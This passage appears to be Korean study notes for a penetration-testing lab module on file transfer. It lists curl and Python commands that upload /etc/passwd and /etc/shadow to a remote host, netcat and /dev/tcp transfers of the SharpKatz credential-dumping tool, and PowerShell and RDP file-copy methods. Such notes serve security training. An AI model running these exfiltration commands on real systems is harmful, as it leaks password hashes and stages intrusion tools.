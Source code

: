 mkdir https && cd https
python3 -m uploadserver 443 --server-certificate ~/server.pem
```
```curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure```

### Web Server 만들기
```python3 -m http.server```<br/>
```python2.7 -m SimpleHTTPServer```<br/>
```php -S 0.0.0.0:8000```<br/>
```ruby -run -ehttpd . -p8000```

### SSH(SCP) 사용 업로드
```scp /etc/passwd htb-student@192.168.1.1:/home/uplaod/```

<br/><br/>
## Code

### Python 3 Upload
```python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'```

<br/><br/>
# File Transfer
<br/><br/>
## Netcat 

### nc로 수신 대기
```nc -l -p 8000 > SharpKatz.exe```

### nc로 파일 전송
```nc -q 0 192.168.49.128 8000 < SharpKatz.exe```

### nc로 전송 대기
```nc -l -p 443 -q 0 < SharpKatz.exe```

### nc로 파일 수신
```nc 192.168.49.128 443 > SharpKatz.exe```<br/>
nc가 없을 경우) ```cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe```
<br/><br/>
## PowerShell Session File Transfer

### PowerShell Session 설정
```
Test-NetConnection -ComputerName <hostname> -Port 5985
$Session = New-PSSession -ComputerName <hostname>
```

### 로컬 파일을 <hostname>으로 복사
```Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\```

### <hostname> 파일을 로컬로 복사
```Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session```
<br/><br/>
## RDP

### rdesktop으로 Linux 폴더 마운트
```rdesktop 192.168.1.1 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'```

### xfreerdp로 Linux 폴더 마운트
```xfreerdp /v:192.168.1.1 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer```

<br/><br/>
## Protected File Transfers

### Windows File Encryption
```
Import-Module .\Invoke-AESEncryption.ps1
Invoke-AESEncryption -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt
```
```